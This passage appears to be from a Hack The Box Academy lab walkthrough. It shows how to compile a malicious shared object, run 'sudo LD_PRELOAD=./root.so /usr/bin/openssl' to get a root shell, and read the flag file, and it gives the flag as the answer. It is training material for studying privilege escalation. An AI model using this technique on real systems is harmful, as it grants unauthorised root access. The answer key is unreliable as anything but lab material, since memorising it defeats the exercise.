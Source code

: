 Subsequently, students need to compile the `C` code file using `gcc`:

Code: shell

```shell
gcc -fPIC -shared -o root.so root.c -nostartfiles
```

```
htb-student@NIX02:~$ gcc -fPIC -shared -o root.so root.c -nostartfiles

root.c: In function ‘_init’:
root.c:7:1: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
 setgid(0);
 ^
root.c:8:1: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
 setuid(0);
 ^
```

Once compiled, students need to escalate privileges by running `openssl` and setting `root.so` to be loaded before any other library:

Code: shell

```shell
sudo LD_PRELOAD=./root.so /usr/bin/openssl
```

```
htb-student@NIX02:~$ sudo LD_PRELOAD=./root.so /usr/bin/openssl 

root@NIX02:~# 
```

At last, students need to print out the contents of the flag at `/root/ld_preload`:

Code: shell

```shell
cat /root/ld_preload/flag.txt
```

```
root@NIX02:~# cat /root/ld_preload/flag.txt

6a9c151a599135618b8f09adc78ab5f1
```

Answer: `6a9c151a599135618b8f09adc78ab5f1`

# Shared Object Hijacking

## Question 1

### "Follow the examples in this section to escalate privileges, recreate all examples (don't just run the payroll binary). Practice using ldd and readelf. Submit the version of glibc (i.e. 2.30) in use to move on to the next section."
